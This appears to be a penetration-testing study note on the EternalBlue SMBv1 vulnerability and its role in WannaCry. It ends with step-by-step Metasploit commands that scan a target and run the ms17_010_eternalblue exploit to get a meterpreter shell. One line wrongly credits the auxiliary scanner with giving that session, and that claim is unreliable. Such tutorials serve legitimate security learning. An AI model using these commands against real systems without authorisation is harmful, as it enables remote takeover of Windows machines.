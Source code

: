## Eternal Blue
* It is the name given to MS 17-010/CVE-2017-0144
* A collection  of Windows vulnerabilities and exploits that allow attackers to remotely execute arbitrary code and gain access.
* Developed by NSA to take advantage of this vulnerability, but was leaked to public by a hacker group called Shadow Brokers in 2017.
* **Waht does it take advantage of ?**
  * A vulnerability in the Windows SMBv1 protocol
 
### Wanna Cry ransomware
* The Eternal Blue exploit was used in the Wanna Cry ransomware attack
* It affects the following versions:
    1. Windows Vista
    2. Windows 7
    3. Windows Server 2008
    4. Windows 8.1
    5. Windows Server 2012
    6. Windows 10
    7. Windows Server 2016
 
* The Eternal Blue exploit has a MSF auxiliary module which provides with a privileged meterpreter session.

* PRACTICAL
* `msfconsole`
* `workspace -a [name]`
* `db_nmap -sS -sV -o [IP]`
* `services` --> This is the advantage of doing work inside of a workspace
* `search type:auxiliary name:Eternal Blue`
* `use auxiliary/scanner/smb/smb_ms17_010`
* `set rhosts [IP]`
* It can also be run on the whole subnet which can be provided in the last command which will help in vulnerability scanning for all the systems in the network.
* `run` --> If YES, vulnerable, go to the next step:
* `use exploit/windows/smb/ms17_010_eternalblue`
* `set rhosts [IP]`
* `run` --> Should provide a meterpreter session on  the target system

